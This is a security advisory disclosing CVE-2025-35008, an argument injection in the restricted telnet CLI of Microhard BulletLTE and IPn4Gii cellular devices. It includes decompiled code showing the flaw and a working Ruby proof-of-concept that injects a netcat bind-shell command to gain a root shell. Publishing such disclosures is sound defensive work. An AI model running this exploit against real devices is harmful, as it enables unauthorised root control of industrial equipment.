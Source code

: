 ```yaml
---
title: CVE-2025-35008
aliases:
  - /cves/CVE-2025-35008.html
---
```


# CVE-2025-35008: Microhard Bullet-LTE and IPn4Gii AT+MMNAME Argument Injection

[AHA!] has discovered an issue with multiple Microhard products, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] on June 8, 2025. [CVE-2025-35008] has been assigned to this issue.

Any questions about this disclosure should be directed to cve@takeonme.org.

# Executive Summary

Products that incorporate the Microhard [BulletLTE-NA2] and [IPn4Gii-NA2] are vulnerable to a post-authentication command injection issue that can lead to privilege escalation. This is an instance of [CWE-88](https://cwe.mitre.org/data/definitions/88.html), "Improper Neutralization of Argument Delimiters in a Command ('Argument Injection')," and is estimated as a CVSS [7.1](https://www.first.org/cvss/calculator/3-1#CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N).

# Technical Details

A command injection vulnerability exists within the AT+MMNAME command in the restricted CLI interface of multiple Microhard products. Authentication is required to exploit this vulnerability in that you must have a user account to access the CLI via telnet. However, the service is running as root, so injecting commands allows an attacker to escape the restricted shell and elevate privileges for full access.

The [firmware] for affected devices contains the binary `/bin/clitest`, which handles the restricted CLI interface. It is reachable via telnet or ssh connection. It allows the user to run certain config commands as well as AT+ commands to interact with the Quectel modem. One of these AT+ commands is AT+MMNAME which is used to rename the modem. User input supplied to the cmd_modem_name() function in param_3 and is used as an argument for the /etc/m_cli/atcmd_sh_validate.sh script which is called via popen():


```
undefined4 cmd_modem_name(undefined4 param_1,undefined4 param_2,char **param_3,int param_4)
{
    ...
    memset(acStack_a8,0,0x80);
    memset(auStack_128,0,0x80);
    sprintf(acStack_a8,"%s|||%s %s=1 %s=63|%s",DAT_0003f8dc + 0x158,DAT_0003f9ac + 0x48,
            DAT_0003f9ac + 0x8c,DAT_0003f9ac + 0xd0,param_3[1]);
    iVar2 = FUN_0000ea24(param_1,acStack_a8,auStack_128);
    ...
}

undefined4 FUN_0000ea24(undefined4 param_1,undefined4 param_2,char *param_3)
{
  int iVar1;
  undefined4 uVar2;
  FILE *__stream;
  char *pcVar3;
  char local_198 [128];
  char acStack_118 [256];
  
  memset(local_198,0,0x80);
  memset(acStack_118,0,0x100);
  memset(param_3,0,4);
  sprintf(acStack_118,"sh /etc/m_cli/atcmd_sh_validate.sh \"%s\"",param_2);
  iVar1 = FUN_0000e9a0(param_1,acStack_118,param_3,4);
  if (iVar1 == 0) {
    uVar2 = 1;
  }
  ...
}

size_t FUN_0000e9a0(undefined4 param_1,char *param_2,void *param_3,size_t param_4)
{
  FILE *__stream;
  char *__s;
  size_t sVar1;
  
  __stream = popen(param_2,"r");
  if (__stream != (FILE *)0x0) {
    memset(param_3,0,param_4);
    fread(param_3,1,param_4,__stream);
    pclose(__stream);
    __s = (char *)trimwhitespace(param_3);
    sVar1 = strlen(__s);
    return sVar1;
  }
  cli_print(param_1,"ERROR: Failed to run script");
  return 0;
}
```

If an attacker wraps input to the AT+MMNAME command in `$()` (dollar-parentheses) or backticks (which are tricky to render in Markdown!) they can put whatever command they want and it will be run as the root user. Note that spaces are not allowed, so $IFS must be used instead for space-delimited arguments for the command payload.

The Ruby script below effectively demonstrates an attack using [CVE-2025-35008] as a proof-of-concept:

```ruby
#!/usr/bin/env ruby
require 'net/telnet'
require 'io/console'

if !ARGV[0]
  puts "usage: #{$0} <ip> [<username> <password>]"
  exit(1)
end

target = ARGV[0]
if ARGV[1] && ARGV[2]
  user = ARGV[1]
  pass = ARGV[2]
else
  printf("user: ")
  user = STDIN.gets.chomp
  printf("pass: ")
  pass = STDIN.noecho(&:gets).chomp
  puts ""
end

telnet = Net::Telnet::new("Host" => target, "Timeout" => 2, "Prompt" => /^\w+>/)
telnet.login(user,pass) {|c| print c}
begin
  telnet.cmd("at+mmname=`nc$IFS-lvp$IFS\\4444$IFS-e$IFS/bin/sh$IFS-i`") {|c| print c}
rescue
  puts "shell spawned on #{ARGV[0]}:4444"
  pid = spawn("nc -v #{ARGV[0]} 4444")
  Process.wait pid
end

telnet.close
```

# Attacker Value

If an attacker has a valid credential to the affected Microhard device, and the means to login (for example, over telnet), that attacker can leverage this vulnerability to escape the restricted shell and elevate privileges to root. Industrial control systems (ICS) are often deployed with easy to guess or default credentials, which could be used in conjunction with [CVE-2025-35008] to achieve complete, root-level remote control over affected devices.

# Credit

This vulnerability was discovered and documented by Ricky "HeadlessZeke" Lawshae of Keysight.

# Timeline

* 2025-03-27 (Thu): Presented at regularly scheduled AHA! meeting 0x00df
* 2025-04-02 (Wed): Contact initiated to several guessed email aliases, such as info@microhardcorp.com,  support@microhardcorp.com, etc.
* 2025-04-02 (Wed): Bounces collected from media@, press@, security@, and secure@. No bounce notification was generated from info@ and support@, though a customer account was required to further communicate with support@, which [AHA!] does not have.
* 2025 (April and May): No further communication from the vendor was received.
* 2025-06-08 (Sun): Verified current IPn4Gii/BulletLTE [firmware] remains at v1.2.0-r1132 
* 2025-06-08 (Sun): Public disclosure of [CVE-2025-35008]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2025-35008]: https://www.cve.org/CVERecord?id=CVE-2025-35008
[BulletLTE-NA2]: https://www.microhardcorp.com/BulletLTE-NA2.php
[IPn4Gii-NA2]: https://www.microhardcorp.com/IPn4Gii-NA2.php
[firmware]: https://support.microhardcorp.com/portal/en/kb/articles/ipn4gii-bullet-lte-firmware
